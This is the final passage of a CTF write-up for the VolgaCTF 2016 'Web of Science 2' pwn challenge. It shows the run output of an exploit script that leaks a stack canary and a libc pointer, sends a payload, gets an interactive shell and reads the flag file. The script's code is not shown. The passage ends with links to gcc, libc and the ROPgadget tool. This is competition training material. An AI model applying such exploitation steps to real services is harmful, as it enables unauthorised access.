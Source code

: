 And finally:
{% highlight shell-session %}
$ ./payload.py 
[+] Opening connection to webofscience2.2016.volgactf.ru on port 45679: Done
[*] Sending leak
[*] leaked canary: 0x3da4ad9a1d93ac00
[*] leaked libc ptr: 0x7ffff79f7140
[*] Sending calc #0
[*] Sending calc #1
[*] Sending calc #2
[*] Sending calc #3
[*] Sending calc #4
[*] Sending calc #5
[*] Sending calc #6
[*] Sending calc #7
[*] Sending calc #8
[*] Sending payload
[*] Switching to interactive mode
$ ls
flag_wos2.txt
install
start_wos2
web_of_science2
$ cat flag_wos2.txt
VolgaCTF{DEP_with0ut_ASLR_is_us3less}
{% endhighlight %}

Well... ASLR or not, that payload would still rekt you ;)
![kappa](https://lh3.googleusercontent.com/85mHJYIs__p80RQxXMMkUafjy2nngqVZbTVUmHsoWif5pOfeh-3_LetG2eoupw69QZ2PojmOMaWelZ4k_7HkJC7P9LeEUAAIdWBkVPf5sE0ebBGA1dhgLxpuBoaUuNPo9e5wjHc){:height="36px" width="36px"}

[gcc]: http://archive.ubuntu.com/ubuntu/pool/main/g/gcc-4.8
[libc]: http://packages.ubuntu.com/trusty/libc6
[libc2]: http://archive.ubuntu.com/ubuntu/pool/main/e/eglibc/
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
